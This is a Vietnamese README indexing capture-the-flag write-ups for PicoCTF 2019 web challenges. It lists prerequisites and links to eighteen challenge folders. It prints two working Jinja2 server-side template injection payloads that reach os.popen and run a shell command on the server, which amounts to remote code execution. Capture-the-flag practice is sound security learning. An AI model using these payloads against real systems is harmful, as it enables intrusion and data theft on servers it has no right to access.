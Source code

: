 # PicoCTF-2019
---
- 1 chút yêu cầu nho nhỏ cho người đọc bài:
  - Hiểu biết về `Burp suite`, ít thôi, không cần nhiều
  - Biết *view source* và *F12*
  - Phần lớn các tool mình viết ra mình sẽ không giải thích (chủ yếu là python), mình chỉ giải thích về payload. Nếu không hiểu thì có thể *research* để biết thêm. *research* cũng không hiểu có thể post lên nhóm chat hoặc inbox hỏi mình
  - 1 vài tool nhỏ về *javascript* thì mình có dùng cách hơi xàm, nhưng vẫn ra flag. Mình chỉ lấy tool lại lúc mình giải bài này thôi, lúc đó cũng không rảnh mà viết ra 1 cái hoàn chình, thà làm tay còn nhanh hơn. Cũng vì 1 phần kiến thức *javascript* của mình hơi ít nữa
  
- Về các lỗi mà người ra đề đưa ra mình sẽ tổng hợp 1 cách chi tiết nhất có thể nếu có thời gian

- Về phần câu Empire 1 nếu có thời gian mình sẽ giải lại theo cách hay hơn

- Về phần câu Empire 2 và 3 có cách nhanh hơn là dump data trực tiếp. Tuy nhiên cần nhiều kiến thức về flask. Các bạn có thể thử các payload này

- Payload Empire 2: `{{ [].__class__.__base__.__subclasses__()[93].__init__.__globals__["sys"].modules["os"].popen("grep -RI pico .").read() }}`

- Payload Empire 3: `{{ [].__class__.__base__.__subclasses__()[93].__init__.__globals__["sys"].modules["os"].popen("grep -RI pico .").read() }}`

- 2 payload này đều như nhau đó là dump data trực tiếp nhờ tìm kiếm bằng grep thông qua module *sys* và *os* của python. Có thể đây là sơ hở của đề. Ngoài ra payload để dump data trực tiếp còn rất nhiều, có thể tham khảo trong link này: [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

---
### Mục lục

#### 1. [Insp3ct0r](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Insp3ct0r)

#### 2. [dont use client side](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/dont%20use%20client%20side)

#### 3. [logon](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/logon)

#### 4. [where are the robots](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/where%20are%20the%20robots)

#### 5. [Client side again](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Client%20side%20again)

#### 6. [Open to admins](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Open%20to%20admins)

#### 7. [picobrowser](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/picobrowser)

#### 8. [Irish Name Repo 1](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Irish%20Name%20Repo%201)

#### 9. [Irish Name Repo 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Irish%20Name%20Repo%202)

#### 10. [Empire 1](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Empire%201)

#### 11. [Irish Name Repo 3](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Irish%20Name%20Repo%203)

#### 12. [JaWT Scratchpad](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/JaWT%20Scratchpad)

#### 13. [Java Script Kiddie](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Java%20Script%20Kiddie)

#### 14. [Empire 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Empire%202)

#### 15. [Java Script Kiddie 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Java%20Script%20Kiddie%202)

#### 16. [cereal hacker 1](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/cereal%20hacker%201)

#### 17. [Empire 3](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Empire%203)

#### 18. [cereal hacker 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/cereal%20hacker%202)
